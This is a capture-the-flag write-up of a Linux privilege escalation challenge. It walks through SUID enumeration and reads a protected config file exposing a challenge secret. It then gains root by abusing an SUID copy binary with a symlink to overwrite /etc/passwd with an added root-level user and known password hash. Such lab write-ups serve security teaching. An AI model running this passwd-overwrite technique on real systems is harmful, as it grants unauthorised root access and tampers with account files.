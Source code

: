 # Linux Priv ESC
Another poem, some more hints. Start in bash but need to get root. Then I need to run an executable as root to complete the challenge. 

The hint page links to [some methods]('https://payatu.com/blog/a-guide-to-linux-privilege-escalation/') to escalate privileges in linux.

first let's see who I am
```
whoami
elf
```
I'm the elf user. 

## Searching for exploits. 
Now let's see if what kernel version we are running,maybe we have a vulnerable version?
```
uname -a
Linux 23eda691ae1e 5.10.0-26-cloud-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 x86_64 x86_64 GNU/Linux
```
Looks like Linux 5.10.0 is [vulnerable to lots of stuff]('https://security.snyk.io/package/linux/debian:10/linux-5.10'). 

Let's search [Exploit DB]('https://www.exploit-db.com/exploits/50808') for an explot that affects linux 5.10.0

## Dirty Pipe exploit
Looks like [dirty pipe]('https://www.hackers-arise.com/post/privilege-escalation-the-dirty-pipe-exploit-to-escalate-privileges-on-linux-systems#:~:text=DirtyPipe%20is%20a%20local%20privilege,any%20file%20under%20certain%20conditions.') can be used for this version of the linux kernel. 

Let's follow the above tutorial, first by checking it is vulnerable. 

## The wrong way
Hmm looks like the server doesn't have Git installed (and I don't have privleges to install any cli tools), so will have to find another way to do this. 

## Follow the hints
The hint page links to a more comprehensive guide to [basic linux privilege escalation]('https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/')

Let's go through step by step to learn more about the system we are trying to exploit.

```
cat /etc/issue
Ubuntu 20.04.6 LTS \n \l

cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```
What's in /etc?

```
ls /etc/
adduser.conf            gai.conf      libaudit.conf  profile.d         shells
alternatives            group         login.defs     rc0.d             skel
apt                     group-        logrotate.d    rc1.d             subgid
bash.bashrc             gshadow       lsb-release    rc2.d             subgid-
bindresvport.blacklist  gshadow-      machine-id     rc3.d             subuid
cloud                   host.conf     mke2fs.conf    rc4.d             subuid-
cron.d                  hostname      mtab           rc5.d             sysctl.conf
cron.daily              hosts         networks       rc6.d             sysctl.d
debconf.conf            init.d        nsswitch.conf  rcS.d             systemd
debian_version          issue         opt            resolv.conf       terminfo
default                 issue.net     os-release     rmt               update-motd.d
deluser.conf            kernel        pam.conf       runtoanswer.yaml  xattr.conf
dpkg                    ld.so.cache   pam.d          security
e2scrub.conf            ld.so.conf    passwd         selinux
environment             ld.so.conf.d  passwd-        shadow
fstab                   legal         profile        shadow-

```
Well runtoanswer.yaml could be interesting to see as it's a config file, but we get permission denied. 

## Escalation using SUID binaries
First let's see what binaries on the system have SUID permissions
```
find / -perm -u=s -type f 2>/dev/null

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```
What does `simplecopy` do?

```
simplecopy --help
Usage: simplecopy <source> <destination>
```
Huh looks like we could use this in a similar way that `cp` is used fro [privilege escalation]('https://gtfobins.github.io/gtfobins/cp/')

Let's use this to copy the `runtoanswer.yaml` file to `stdout`

```
simplecopy runtoanswer.yaml /dev/stdout

# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
delay: 1

# Optional: skip (most) stdout output if the answer is correct
headless: false

# If set to true, don't exit after the user asks
keep_going: false

# Optional: play this sound on completion or failure
#completion_sound: 'myhappysound.mp3'
#failure_sound: 'mysadsound.mp3'

# Close the terminal when it is completed?
exit_on_completion: false
```

This has the completion secret, but I'll still need to run the runtoanswer binary as root to complete this challenge. 

We know we can copy files with root privileges so the key will be copying the `/etc/passwd` file and adding a new user. then we will need to create a symlink to this file so the system uses this. Let's follow this [tutorial]('https://materials.rangeforce.com/tutorial/2019/11/07/Linux-PrivEsc-SUID-Bit/')

first create a user identity with already hashed password (`mrcake` for this example)
`elf2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash`

Then copy the `/etc/passwd` file to `source/passwd` echo in this bad user and create a symlink
```
#use cp to create the malicious passwd file and create a new user
mkdir source
cp /etc/passwd source/passwd
echo 'elf2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd

# create a symlink destination 
ln -s /etc destination

# use the simplecopy binary to copy the malicious passwd file to the destination folder, becasue of the symlink this will overwrite the /et/passwd file
simplecopy source/passwd destination/passwd

# get a root shell
su elf2
Password: mrcake

whoami
root
```
Then go to the root directory to find the binary to run and complete the challenge!
